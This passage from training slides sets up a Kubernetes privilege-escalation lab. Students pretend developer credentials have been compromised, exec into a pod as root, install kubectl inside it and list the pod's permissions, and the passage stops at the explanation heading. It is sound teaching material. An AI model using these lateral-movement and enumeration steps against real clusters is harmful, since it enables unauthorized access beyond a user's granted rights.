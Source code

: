 ### Slide 123 - Lab Scenario

By now your Ansible playbook should have finished with no errors, if so great, if not, get our TA's attention.

We need the to pretend we've compromised dev creds to Kubernetes, we'll do this by switching kubectl's context (contexts are often used when kubectl users have multiple clusters or accounts)
```
kubectl config use-context developer@kind-lab
```

### Slide 124 - Priv esc - to golden tickets (lab)

What can it do?
```
kubectl auth can-i --list
```

Permissions on dev account seem to be very limited
```
kubectl get pods
```
There's one pod we seem to have access to...

Let's exec into it. Change the `[rand]` below to match the random string in the pod name from the last command
```
kubectl exec -it myapp-[rand] -- /bin/bash
```

### Slide 125 - Priv esc - to golden tickets (lab cont.)

Install some tools we'll need

**Note:** we can do this because we're running in the container as root, otherwise we'd just pull in these tools some other way

```
apt update && apt install -y curl
```

```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

chmod `kubectl`  and move it to /usr/local/bin 

```
chmod +x kubectl && mv kubectl /usr/local/bin
```

Use kubectl to see what we can do from this pod?

```
kubectl auth can-i --list
```
### Slide 126 - Priv esc - Why does this work?
